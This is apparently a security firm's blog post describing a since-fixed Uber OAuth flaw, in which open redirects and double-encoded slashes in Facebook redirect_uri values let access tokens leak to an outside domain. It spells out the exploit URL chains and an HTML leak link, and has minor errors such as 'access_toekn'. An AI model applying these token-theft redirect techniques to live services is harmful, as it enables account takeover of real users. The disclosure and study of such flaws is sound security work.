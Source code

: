 ```yaml
---
layout: page
title: "Nova Security's Rigorous Vulnerability Assessment: A Case Study on Online Authentication Flaws"
date: 2024-06-12 11:21:29
description: At Nova Security, we pride ourselves on meticulous and methodical vulnerability assessment methodologies. Our approach allows us to intricately navigate through endpoints and comprehensively analyse potential vulnerabilities.
thumbnail: "../../assets/images/blogs/blog_image_1.webp"
author: Ron Chan
tags: ["Business", "Software","Agency"]
categories: [Penetration Testing, Bug Bounty, Cybersecurity]
bodyClass: blog-single
---
```


At Nova Security, we pride ourselves on meticulous and methodical vulnerability assessment methodologies. Our approach allows us to intricately navigate through endpoints and comprehensively analyse potential vulnerabilities.

Our rigorous security assessment includes a thorough examination of sites like uber.com, uberinternal.com. This involves analyzing approximately 15,000 requests per day in Burp. Our focus is not solely on reflective or stored XSS vulnerabilities, but we follow the flow of the website, especially if it uses OAuth, exploring various permutations of redirect_uris.

One such interesting observation is a lesser-known Facebook *redirect_uri* loophole. Back in 2016, Uber permitted Facebook login at login.uber.com and auth.uber.com, and the login flow allowed further redirection to *.uber.com. A peculiar feature of browser security is that a 302 location header redirect preserves any content after the hash in the URL. It provided an opportunity to exploit open redirect in the next_url parameter, which could potentially lead to access token theft.

One example of an enduring open redirect is https://login.uber.com/logout. It redirects based on the Referer header, which, in turn, can be manipulated.

By using the above-mentioned information, we were able to deduce an exploitative method to achieve Facebook Account Takeover (ATO) in Uber. The details of the exploit are provided in the link below:

`https://facebook.com/xxxx?client_id=xxxxxx&redirect_uri=https%3a%2f%2fauth.uber.com%2flogin%3fnext_url=https%3A%2F%2Frush.uber.com%2Flogin%2F&state=m7QWxxPRNII4VGsCSog0xLJ2KF7e8ynpC2c_OAKkQQk%3D` (Clicking from https://novasecurity.co.nz/theft)

`https://auth.uber.com/login?next_url=https%3A%2F%2Frush.uber.com%2Flogin%2F&state=m7QWxxPRNII4VGsCSog0xLJ2KF7e8ynpC2c_OAKkQQk%3D#access_toekn=xxxx`

`https://rush.uber.com/login?&#8230;.#access_token=xxxx`

`https://novasecurity.co.nz/theft#access_token=xxxxx`

The exploit was reported in late 2016 and promptly fixed. It is encouraged to refer to the original fix implemented by Uber to understand the mechanism better.

On revisiting the issue in early 2017, we noticed that Uber still hosted two whitelisted redirect_uris - https://auth.uber.com/login and https://login.uber.com/login. Despite the initial open redirect issue being resolved, the existence of these whitelisted redirect_uris introduced a fresh set of exploitative possibilities.

Interestingly, the server accepted an encoded slash (%2f), leading to a successful exploitation of the bug. Combining Uber's server-side normalization behavior with Facebook's acceptance of double URL encoded slashes, we could devise another method to compromise Uber's Facebook account.

```html
redirect_uri=https%3a%2f%2fnovasecurity.co.nz%2fdirectory%252f..%252f..%252fescaped

<a href="https://facebook.com/xxxx?client_id=xxxxxx&redirect_uri=https%3a%2f%2flogin.uber.com%2flogin%252f..%252f..%252flogout&state=state">Click to leak</a>
```

The subsequent fix by Uber involved the removal of login.uber.com from the whitelist redirect_uri.

At Nova Security, we appreciate the complexity of the digital landscape and understand that every organization faces unique challenges. While our aforementioned exploration may seem intricate, it's just one example of the work we undertake daily. We relish these opportunities to delve into the depths of cyberspace, unearthing vulnerabilities, and formulating robust defensive strategies.

Our security experts stay on the frontline of cybersecurity, tracking new threats, and developing innovative countermeasures. However, we understand that cybersecurity is not a one-size-fits-all approach. That's why we strive to offer tailored services that address your organization's specific needs.

It's crucial to understand that robust cybersecurity is not a luxury but a necessity in today's digital age. Whether you're operating a startup or a multinational corporation, securing your digital assets should be a top priority.

If you have any queries, or if your organization requires an in-depth security assessment, please don't hesitate to contact us. We welcome the opportunity to discuss how our bespoke services can help safeguard your business.